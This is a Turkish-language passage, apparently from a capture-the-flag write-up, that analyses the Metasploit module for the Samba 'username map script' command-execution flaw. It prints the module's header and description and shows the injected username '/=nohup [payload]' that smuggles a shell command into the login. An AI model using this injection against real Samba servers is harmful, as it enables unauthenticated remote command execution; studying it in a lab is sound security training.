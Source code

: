 Bunun neden başarısız olduğunu Beyond Root'ta inceleyeceğim.


## SAMBA Exploit

### Tamamen Manuel

#### Script Analysis

Neler olduğunu anlamak için, exploit'in kaynağını alacağım:

![Pasted image 20250205203622.png](/img/user/resimler/Pasted%20image%2020250205203622.png)

Oldukça kısa:

```
##
# $Id: usermap_script.rb 10040 2010-08-18 17:24:46Z jduck $
##

##
# This file is part of the Metasploit Framework and may be subject to
# redistribution and commercial restrictions. Please see the Metasploit
# Framework web site for more information on licensing and terms of use.
# http://metasploit.com/framework/
##

require 'msf/core'

class Metasploit3 < Msf::Exploit::Remote
        Rank = ExcellentRanking

        include Msf::Exploit::Remote::SMB

        # For our customized version of session_setup_ntlmv1
        CONST = Rex::Proto::SMB::Constants
        CRYPT = Rex::Proto::SMB::Crypt

        def initialize(info = {})
                super(update_info(info,
                        'Name'           => 'Samba "username map script" Command Execution',
                        'Description'    => %q{
                                        This module exploits a command execution vulnerability in Samba
                                versions 3.0.20 through 3.0.25rc3 when using the non-default
                                "username map script" configuration option. By specifying a username
                                containing shell meta characters, attackers can execute arbitrary
                                commands.

                                No authentication is needed to exploit this vulnerability since
                                this option is used to map usernames prior to authentication!
                        },
                        'Author'         => [ 'jduck' ],
                        'License'        => MSF_LICENSE,
                        'Version'        => '$Revision: 10040 


Önemli kısım en alttaki ==def exploit'te==. kullanarak bir SMB oturumu oluşturuyor:

```
kullanıcıadı = `/=nohup [payload]`
şifre = rastgele 16 karakter
domain = kullanıcı tarafından sağlanan domain
```
```